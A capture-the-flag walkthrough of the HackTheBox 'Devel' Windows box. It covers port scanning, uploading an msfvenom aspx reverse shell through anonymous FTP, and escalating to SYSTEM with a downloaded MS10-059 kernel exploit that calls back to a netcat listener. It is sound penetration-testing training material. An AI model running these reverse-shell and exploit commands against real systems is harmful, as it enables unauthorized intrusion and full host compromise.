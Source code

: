 ```yaml
---
title: Devel
tags: windows
---
```


![image](assets/79370040-fcc98380-7f1f-11ea-8333-a85c36c3d15f.png)

## Overview

Devel is a windows box running an ftp server that allowed read/write access to anonymous users to the root of the webserver folder. Initial footbold was gained by uploading an aspx reverse shell and accessing it via port 80 which provided initial access to the box. I then used Windows-Exploit-Suggester to to which showed it was vulnerable to MS10-59, upon running I was able to create a reverse shell as 'nt authority\system'.

## Enumeration

**Software**
* Microsoft Windows 7 Enterprise
* IIS 7.5

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.5 -oN /root/boxes/devel/_full_tcp_nmap.txt
```
* 21/tcp - Windows IIS ftp
* 80/tcp - Microsoft IIS httpd 7.5

**Directory/File Brute Force***
```
gobuster dir -u http://10.10.10.5 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x asp,aspx -t 40
```

_no results_

## Steps (user)

Reviewing the nmap results showed that two ports are open: 80 (http) and 21 (ftp). Browsing to http://10.10.10.5 showed the default IIS 7 page. Since gobuster didn't turn up any interesting results I moved on to port 21. 

> The nmap scan showed that the ftp server allowed anonymous login. 

![image](assets/81018650-f64d6e00-8e32-11ea-84c4-6e100d1d4c6b.png)

> nmap with -A combines -O, -sV, and -sC which Enable OS detection, version detection, and script scanning.

Being able to read is good but being able to write is better. As a test I created a file to test my ability to upload/write and was successful.

```
echo 'this is a test' > test.txt
```

![image](assets/81019777-5c3af500-8e35-11ea-9d9f-91314bdc8915.png)

![image](assets/81019834-7bd21d80-8e35-11ea-87eb-f515ea7146f3.png)

Since I now had confirmation that I could upload files to the ftp server and execute them on the website, I proceeded to create a reverse shell payload in aspx format with msfvenom

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.18 lport=4200 -f aspx > rshell.aspx
```

I set up a netcat listener (rlwrap nc -lvnp 4200) and uploaded the file to the ftp server.

```
ftp 10.10.10.5
username: anonymous
password: blank
put rshell.aspx
```

After browsing to rshell.aspx I received a callback to my netcat listener.

![image](assets/81020403-ba1c0c80-8e36-11ea-8095-6d86a7a744ee.png)

## Steps (root/system)

Since this is an older box I used Windows Exploit Suggester. For newer boxes there are other options such as wesng, Sherlock, or Watson.

According to wesng github page:

> I developed WES-NG because while GDSSecurity's Windows-Exploit-Suggester worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for operating systems like Windows 10 and vulnerabilities published in recent years. This is because Microsoft replaced the Microsoft Security Bulletin Data Excel file [1] on which GDSSecurity's Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The Microsoft Security Bulletin Data Excel file has not been updated since Q1 2017, so later operating systems and vulnerabilities cannot be detected. 

Moving forward with wes; this tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.


```
./windows-exploit-suggester.py -l --database ~/tools/Windows-Exploit-Suggester/2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/81022003-86db7c80-8e3a-11ea-9ff6-8a61d34d56ac.png)

> In the results [E] means exploitdb POC, and [M] means metasploit module.

I didn't have any luck with MS11-011 so I tried MS10-059. First I downloaded MS10-059 to my local machine

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

I used the anonymous ftp server to upload the file and started a netcat listener on a new port (rlwrap nc -lvnp 4201)

```
ftp 10.10.10.5
username: anonymous
password: blank
binary
put MS10-059.exe
```

I executed ms10-059.exe, providing my box's IP and port as parameters and received a shell as 'nt authority\system'

```
ms10-059.exe 10.10.14.18 4201
```

![image](assets/81023823-a1642480-8e3f-11ea-86cf-a34219d3d1c7.png)
